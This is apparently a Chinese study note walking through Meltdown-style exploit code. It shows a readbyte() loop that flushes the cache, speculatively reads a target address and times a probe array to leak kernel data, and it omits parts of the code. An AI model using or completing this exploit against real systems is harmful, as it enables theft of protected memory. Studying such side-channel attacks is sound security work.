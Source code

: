   上述代码对应论文的汇编部分。通过预测执行的漏洞，将victim data泄露给rax
  上述代码的核心在于Reload。目标数据作为访问的地址，访问probe_data数组，将其唯一的一块调入缓存。
  



```
int readbyte(int fd, unsigned long addr)

{

	int i, ret = 0, max = -1, maxi = -1;

	static char buf[256];



	memset(hist, 0, sizeof(hist));



	for (i = 0; i < CYCLES; i++) {

		ret = pread(fd, buf, sizeof(buf), 0);

		if (ret < 0) {

			perror("pread");

			break;

		}



		clflush_target();



		_mm_mfence();



		speculate(addr);

		check();

	}

```
上述代码即为核心代码的封装。将窃取victim data的过程整合在一起。speculate（）即asm部分；
check()就是遍历数组探测时间部分，在此处省略
check()函数的功能在于检查访问时间，也就是常说的Probe阶段，访问rax地址指向的数据块是最快的，通过记录时间，即可得到rax。通过这种旁路攻击，
完成了保密数据的获取。
main函数无更多重要内容，此处省略。
